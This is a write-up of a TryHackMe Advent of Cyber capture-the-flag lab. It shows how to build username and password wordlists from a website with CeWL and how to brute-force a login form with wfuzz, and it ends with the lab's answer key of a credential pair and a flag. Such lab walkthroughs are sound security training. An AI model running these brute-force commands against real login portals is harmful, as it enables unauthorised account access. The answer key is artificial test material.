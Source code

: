 # Task 10  [Day 4] Brute-forcing Baby, it's CeWLd outside

---


### Learning Objectives

- What is CeWL?
- What are the capabilities of CeWL?
- How can we leverage CeWL to generate a custom wordlist from a website?
- How can we customise the tool's output for specific tasks?

Once the Machine is go to 

[http://MACHINE_IP/login.php](url)

---

<img width="1305" alt="Screenshot 2023-12-23 at 9 25 30 PM" src="https://github.com/Lynk4/Advent-of-Cyber-2023/assets/44930131/65fefa1f-075f-404b-a64c-5ecd11b0912c">

---

you may install it by using the command 

```
sudo apt-get install cewl -y
```

Create a password list using CeWL: 

```
cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers
```

Create a username list using CeWL:

```
cewl -d 0 -m 5 -w usernames.txt http://MACHINE_IP/team.php --lowercase
```

Brute-force the login portal using wfuzz: 

```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"
```
---
<img width="937" alt="Screenshot 2023-12-23 at 9 42 50 PM" src="https://github.com/Lynk4/Advent-of-Cyber-2023/assets/44930131/3e6a3b43-48e5-4537-a585-c71152fb4a76">

---

<img width="1304" alt="Screenshot 2023-12-23 at 9 33 13 PM" src="https://github.com/Lynk4/Advent-of-Cyber-2023/assets/44930131/ae6e98f0-8b97-4b33-bc27-65fae5eca89f">

---


Questions:

1. What is the correct username and password combination? Format username:password

ANSWER
```
isaias:Happiness
```

2. What is the flag?

ANSWER
```
THM{m3rrY4nt4rct1crAft$}
```
---
